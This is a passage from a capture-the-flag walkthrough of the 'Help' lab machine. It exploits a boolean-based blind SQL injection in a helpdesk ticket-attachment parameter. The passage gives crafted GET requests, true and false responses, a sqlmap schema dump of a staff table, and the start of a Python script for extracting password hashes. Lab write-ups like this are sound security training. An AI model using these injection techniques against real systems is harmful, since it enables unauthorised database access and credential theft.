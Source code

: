 as we can read in the exploit we can just download a ticket attachment and add a boolean based query in the param array. If the server responds with a 404 page, it means that the query has been evaluated as false, otherwise, it means that the query has been evaluated as true.  
we can test it by sending the following query, appending 'and 1=1':
```
GET /support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6+and+1%3d1-- HTTP/1.1
Host: help.htb
[... SNIP ...]
```
as we can see as a response we get the uploaded file:
```
HTTP/1.1 200 OK
[... SNIP ...]
Content-Type: text/plain;charset=UTF-8

google for: express language query node
[... SNIP ...]
```
Instead, if we set 'and 1=2' we do get the following response:
```
HTTP/1.1 200 OK
Date: Mon, 10 Jan 2022 09:43:41 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1102
Connection: close
Content-Type: text/html; charset=UTF-8

[... SNIP ...]
<title>Page not found - 404</title>
```
So, as always, let's start by enumerating the schema with sqlmap, so that then we can query the database using this vulnerability, poking for credentials:
```
[root@kali exploits ]$ sqlmap -r req.txt --batch --schema
[... SNIP ...]
[11:48:21] [INFO] fetching columns for table 'staff' in database 'support'
[11:48:21] [INFO] retrieved: 14
[11:48:21] [INFO] retrieved: id
[11:48:22] [INFO] retrieved: int(11)
[11:48:25] [INFO] retrieved: username
[11:48:28] [INFO] retrieved: varchar(255)
[11:48:32] [INFO] retrieved: password
[11:48:35] [INFO] retrieved: varchar(255)
[11:48:39] [INFO] retrieved: fullname
```
now that we've found 'users' table let's try to exfiltrate the password hash.  
For doing so, we can use the following script:  
```
import requests

def sql_infer_inject(query):
    url=f'http://10.10.10.121/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6 and {query}'
    cookies = { 'PHPSESSID':'8cq82cchnlqba71q2tis5pmj93' }
    response = requests.get(url, cookies=cookies)
    if response.headers['Content-Type'] == 'text/plain;charset=UTF-8':
        return True
    else:
        return False

```